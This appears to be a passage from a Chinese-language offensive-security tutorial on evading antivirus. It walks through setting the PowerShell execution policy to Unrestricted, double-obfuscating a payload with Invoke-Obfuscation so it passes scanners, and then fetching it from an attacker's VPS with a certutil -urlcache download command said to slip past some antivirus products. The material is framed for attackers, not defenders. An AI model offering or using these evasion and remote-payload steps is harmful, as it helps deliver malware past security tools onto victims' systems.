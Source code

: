 ![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JXBsxCrZcI8UEdY9nUg3FynlYjzy7uCuPsK9SDdFclYYlFiaeZwBJq5QBkrKibdy96ta5Uk31avYreQ/640?wx_fmt=png)

扫描结果

然后我们拿出我们的神器二次混淆

可能会报错？！  
win10 x64 系统 Import-Module 无法加载文件，提示此系统上禁止运行脚本。

**二次混淆 ps1**

1. 管理员权限下运行：Set-ExecutionPolicy Unrestricted

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JXBsxCrZcI8UEdY9nUg3Fyncsq7pomocm6v1pZmEQvLQaRPWEcBX5panzoiciaFHuYBACbGEibO7skuw/640?wx_fmt=png)

2.Import-Module ./Invoke-Obfuscation.psd1  

3.Invoke-Obfuscation

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JXBsxCrZcI8UEdY9nUg3Fyn8icnZDCyVjhV6GzXbUTFh4oJPAW0WaQaOWspS90iaAGS9fNXoHPU1C4g/640?wx_fmt=png)

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JXBsxCrZcI8UEdY9nUg3FynOlJc2ibicFge8s2WS4J5O277RVUrI7mBGMXLBv4ppiaHViafardB2N3wzg/640?wx_fmt=png)

4.set scriptpath 文件位置. ps1

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JXBsxCrZcI8UEdY9nUg3FynEjPawibN0zb15VibaY0iaVavBBiaM03nK2yynLgbA2PJnWbK4SeKyZz6Iw/640?wx_fmt=png)

5.encoding 选择混淆的方式

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JXBsxCrZcI8UEdY9nUg3FynVt1NLBicXtjiaadX1lt4cLaNkLdvuDvm4Rc0WEzOzxAwAL0tdIttzn7g/640?wx_fmt=png)

这里我选择混淆两次 ascii 按两次 1 两次回车就完事儿了

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JXBsxCrZcI8UEdY9nUg3FynQcooOtrobWBGwLRIMGsLiajtQibiabCaFHXuSR0jGoRVamwQzN3iaic0b6Q/640?wx_fmt=png)

6.out 文件位置 输出文件

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JXBsxCrZcI8UEdY9nUg3FynCDk1obYuricdsKlicSQMlemd44ibpcCFSarzyXLGeBBajhibicsokiazYGQg/640?wx_fmt=png)

生成 payload2

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JXBsxCrZcI8UEdY9nUg3FynjSzso9fGu9UAjemQrUjIqtwFpeJOyj44V6RhraKwk05icRWiaE5PSwoA/640?wx_fmt=png)

其他一样过

**远程下载**

**certutil 证书下载 (可过部分杀软，但有些过不去)**

我们使用 certutil 证书远程下载

Windows 有一个名为 CertUtil 的内置程序，可用于在 Windows 中管理证书。使用此程序可以在 Windows 中安装，备份，删除，管理和执行与证书和证书存储相关的各种功能。

CertUtil 的一个特性是能够从远程 URL 下载证书或任何其他文件。

```
certutil.exe -urlcache -split -f  vps/payload2.ps1 1.ps1  # 从vps上下载payload2.ps1 保存为1.ps1
```
